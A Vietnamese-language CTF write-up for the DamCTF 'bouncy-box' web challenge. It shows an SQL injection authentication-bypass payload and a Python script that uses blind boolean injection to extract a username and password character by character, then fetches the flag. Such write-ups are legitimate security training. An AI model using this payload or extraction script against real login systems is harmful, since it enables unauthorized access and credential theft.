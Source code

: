 ![Image](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/1.png)
</br>
form đăng nhập thứ nhất
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/2.png)
Ở form đăng nhập này bị lỗi SQL injection, với payload `trung' or '1'='1'-- -`  nhập vào ô username, tôi dễ dàng vượt qua cơ chế xác thực và xuất hiện nút button `Free flag`
khi ấn vào thì xuất hiện form đăng nhập lần nữa, có vẻ form này không bị lỗi SQL injection, tôi nghĩ chúng ta sẽ lợi form đăng nhập thứ nhất để dò tìm username password để đăng nhập
vào form đăng nhập thứ 2
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/3.png)
</br>

cách giải của tôi
```import requests, string
s = requests.session()

url = 'https://bouncy-box.chals.damctf.xyz/login'

arr = ',' + string.printable

def blind_row(column,step):
    for char in arr:
        res = s.post(url,json={"username":f"admin' or ascii(substr((select {column} from users limit 1),{step},1))={ord(char)}-- -",
        "password":"admin","score":0}).status_code
        if res==200:
            return char
    return None
 
def rows(column):
    row = ''
    step = len(row) +1
    while True:
        char = blind_row(column,step)
        if char == None:
            return row
        row += char
        step += 1
        print('[+] %s = '%column,row)  

username = rows('username')
password = rows('password')

flag = s.post('https://bouncy-box.chals.damctf.xyz/flag',data={'username_input':username,'password_input':password}).text
print(flag)
# dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}
```
[source đầy đủ ở đây](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/web1.py)
